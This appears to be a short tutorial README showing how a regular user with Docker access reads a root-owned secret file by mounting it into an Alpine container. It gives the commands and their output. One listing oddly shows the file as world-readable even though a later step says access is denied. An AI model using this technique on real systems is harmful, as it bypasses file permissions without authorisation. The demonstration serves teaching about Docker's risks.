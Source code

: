 # Privilege Escalation Using Docker Containers

## Prerequisites

- [Docker](https://docs.docker.com/engine/install/)

## Quick Start

1. Create a new file as the `root` user.

    ```bash
    su - # login as root
    echo "supersecret" > secret.txt
    ```

2. List files and read `secret.txt` content as root.

    ```bash
    # list files in current directory
    ls -lhr
    total 8.0K
    -rw-r--r-- 1 root   root     12 Jan 17 23:14 secret.txt
    # show content of file
    cat secret.txt 
    supersecret
    ```

3. Using a regular user (non-root) account try to display the content of the `secret.txt` file.

    ```bash
    cat secret.txt
    cat: secret.txt: Permission denied
    ```

4. Using a regular user (non-root) account run a docker container and mount the `secret.txt` file to read the content.

    ```bash
    docker run -v "$(pwd)/secret.txt:/tmp/secret.txt" -it alpine sh -c "cat /tmp/secret.txt"
    supersecret
    ```

5. Inspect who's running the docker container using the `ps` command.

    ```bash
    # using a regular user account run the following
    docker run -it alpine sh -c "sleep 3600"
    # in a different terminal run the ps command
    docker ps -a
    # replace $CONTAINER_ID for the actual container id
    ps -aux | grep $CONTAINER_ID
    # stop the alpine container
    docker stop $CONTAINER_ID
    ```

## Resouces

- <https://kind.sigs.k8s.io/docs/user/configuration/>
